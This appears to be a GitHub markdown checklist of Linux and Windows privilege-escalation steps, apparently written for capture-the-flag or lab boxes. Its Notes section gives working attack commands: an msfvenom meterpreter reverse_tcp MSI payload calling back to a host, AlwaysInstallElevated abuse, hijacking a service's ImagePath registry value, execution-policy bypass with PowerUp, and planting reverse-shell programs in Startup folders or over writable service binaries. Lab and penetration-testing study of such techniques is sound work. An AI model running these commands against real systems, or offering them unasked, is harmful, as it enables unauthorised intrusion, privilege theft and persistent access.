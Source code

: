- [ ] when ```www-data``` shell is obtained upload a linenum scripts and run it
- [ ] look for <br />
        1. Files with unwanted permissions <br />
        2. Files with SETUID binaries ```find / -perm -4000``` <br />
        3. Look for Cron Jobs `cat /etc/crontab or crontab -l `<br />
- [ ] always look for the users in the ```/home``` dirs, the passwords that found during the enumeartion phase will be the same password for the user as well
- [ ] ```sudo -l``` should be checked must
- [ ] Make a note of all password yoiu come accross the way to the shell and try ```su - <user>``` and try each passwords
- [ ] Keep an eye on the ```groups``` that the user belongs to
- [ ] After gaining the shell look for `network activity` of the machine
- [ ] While running the enumeration scripts, look for the network activities
- [ ] When Binaries execute, `strace <binary>` strace it and look for the things it executes `exec`


#### Windows
### Windows PrivEsc

- [ ] once you get the revershell, look for `current user` and `system informations`
- [ ] Look for open vulns with `kbid` with the command `wmic qfc` 
> WE CANT EXPECT IT TO WORK ON ALL BOXES
- [ ] Check for password files stored in clear text, `findstr /si password *.txt *.ini *.config *.xml`
- [ ] Always look for `unattended.xml` for passwords leak
- [ ] Upload files for testing in the `temp` directory `C:\\temp\\`
- [ ] Look for things in registry with `reg query` 
- [ ] Look for auto login from the `registry` which enumerates username
- [ ] When you see internal services running and not shown in nmap scan, better to do port forwarding
- [ ] If WSL is available in the machine, look for related vulnerabilities
- [ ] Look at the priviledges available for the user `whoami /priv`, if `SeImpersonatePriviledge` is enabled use it
- [ ] Look for alternate data streams when the specified file is not found `dir /R` and look the contents of the alternate data streams with `more < $FILE_NAME`
- [ ] Check for `runas` commands when a low level shell is obtained
> RUNAS ALLOWS US TO RUN APPLICATIONS AS ANOTHER USER
- [ ] Look for stored credentilas in the machine `cmdkey /list`
- [ ] If the credentials for the particular user is enumerated via cmdkey /list, execute all commands as that specific user with `runas.exe /user:domainName\userName /savecred "<command to execute>"`
- [ ] Check for `autorun` progs and look for ways if it can be leveraged `accesschk64.exe -wvu <path>`
- [ ] Check for `autorun` progs with `PowerUp.ps1`, if any file found with all access (read,write for everybody) generate a payload and replace it in its folder with the same name which wil run and obtain us a reverse shell
- [ ] Check for `always install packages` as elevated
- [ ] Check for full control over a `registry key` which allows to install malicious 
- [ ] Check for files that execute and have write access
- [ ] Check for startup-application are vulnerables
- [ ] Check for processes with `powersploit`


##### Notes
```bash
- [ ] Check for `autorun` progs and look for ways if it can be leveraged `accesschk64.exe -wvu <path>`
- [ ] Check for `autorun` progs with `PowerUp.ps1`, if any file found with all access (read,write for everybody) generate a payload and replace it in its folder with the same name which wil run and obtain us a reverse shell
# start powershell from cmd with execution policy bypass mode
powershell -ep bypass
# start the PowerUP.ps1
. .\PowerUp.ps1
# Get the all items
Invole-AllChecks 
```

```bash
- [ ] Check for `always install packages` as elevated
# check for auto install elevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
# Always install elevated value = 1 in both the commands
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
# generate a msfvenom msi payload and install it
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.10 lport=4444 -f msi -o setup.msi
# elevate from the output of PowerUp.ps1, it shows the command
Write-UserAddMSI
# install it and obtain a new user in the administrators group
```

```bash
- [ ] Check for full control over a `registry key` which allows to install malicious 
# get the access control list of the registry regsvc
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
# windows_service.c is used for service hijacking
# adding the malicious executable to the registry 
# save the entry with the name(valuename)(/v) ImagePath(reg key that contains the path of the drivers image files ) and runthe string(/t = mentions the type, REG_EXAPND_SZ - tells we are going to run a string here) that follows which is a data(/d) and execute the file, dont show any confirmations(/f)
reg add HKML\System\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
# start the registry service
sc start regsvc
```


```bash
- [ ] Check for files that execute and have write access
# like finding binaries with write access 'like in traceback machine'
#running the PowerUp.ps1 we can find the same under the `Checking Service Executables adn argument permissions`
# over write the malicious(generated with msfvenom) exe with the exe that is found with write permissions
# start over the application which is running as service with the command, `sc start <service_name>`
```

```bash
- [ ] Check for startup-application are vulnerables
# check the startup applications
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startp"
# if full access is available, makesure to create a malicious program which call backs home and place it in the startup folder(C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startp)
# when logged out and logged in, as the startup program kicks in, the reverse shell will be obtained
```
